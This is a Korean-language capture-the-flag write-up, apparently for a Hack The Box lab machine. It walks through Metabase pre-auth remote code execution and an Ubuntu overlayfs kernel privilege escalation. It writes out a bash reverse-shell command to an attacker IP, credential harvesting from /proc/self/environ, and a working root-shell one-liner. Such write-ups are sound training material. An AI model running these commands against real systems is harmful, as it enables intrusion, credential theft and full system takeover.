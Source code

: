 ### 초기 침투
- metabase 로그인 페이지를 찾음
  - metabase: 오픈 소스 business intelligence tool
  - 임의 코드 실행 취약점을 이용
### exploit
- 사용한 exploit code: https://github.com/m3m0o/metabase-pre-auth-rce-poc/blob/main/main.py
- python3 main.py -u http://[targeturl] -t [setup-token] -c "[command]" 다음과 같은 형태로 실행
  - exploit 하기 위해 data.analytics.htb/api/session/properties 에서 setup-token 값을 읽는다
    - 인증 없이도 액세스 가능한 경우가 많음
  - db 연결을 검증하는 setup-token과 함께 사용할 수 있는 api 엔드포인트를 찾음
  - h2 db 드라이버에서 sql 주입 취약점을 발견
  - db 유효성 검사 단계를 조작하여 임의의 코드 실행
<br></br>
- 해당 토큰과 url, exploit code를 실행하여 전달하고 reverse shell을 얻는다
- python3 main.py -u http://data.analytical.htb -t <토큰 값> -c "bash -i >& /dev/tcp/<ip값>/4444 0>&1"
- proc/self/environ 에서 meat user id와 meta password 값을 찾아 ssh로 접속을 시도 한다.
- user flag 값을 얻을 수 있다.

### 권한 상승
- sudo -l: 실행 안됨
- uname -a: 시스템 커널 과 하드웨어 정보를 확인하여 권한 상승할 정보를 찾는다
<br></br>

- 사용한 방법으로는 우분투 커널 취약점을 이용하여 권한 상승을 시도한다.
  - 사용한 exploit code
  - 해당 명령은 home 디렉터리나 상위 디렉터리에서 실행이 불가
  - 하위 폴더에서 실행해야 함
<br></br>
- 권한 상승 원리
  - 
```
unshare -rm sh -c
"mkdir l u w m &&
cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" &&
u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```
<br></br>
  - unshare -rm sh: 새 사용자 네임스페이스 생성 후 새 파일 시스템 네임 스페이스를 마운트 함
  - mkdir l u w m: 각 이름의 디렉터리 생성
  - cp /u*/b*/p*3 l/: 각 패턴에 맞는 파일 복사
  - setcap cap_setuid+eip l/python3: l에 있는 python3 바이너리에 eip플래그와 함께 cap_setuid를 설정하여 권한을 상승시킴
  - mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m: overlay 파일 시스템을 overlay 파일시스템 타입을 이용하여 마운트 함
    - l은 lower layer, w는 work directory, m은 mount point, u는 upper layer로 지정\
  - touch m/*: m 디렉터리에 빈 폴더 생성
<br></br>
- u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")': 명령은 u에 있는 python3 디렉터리(overlay 파일시스템 상위 계층)에서 실행됨
  - root 권한으로 bash shell을 획득 함
- 권한을 얻고 /root/root.txt에 있는 플래그 값을 읽는다.

### 결론
- metabase 취약점
  - db 유효성 검증 단계에서 sql injection을 하여 reverse shell 획득
- 커널 취약점을 이용한 권한 상승
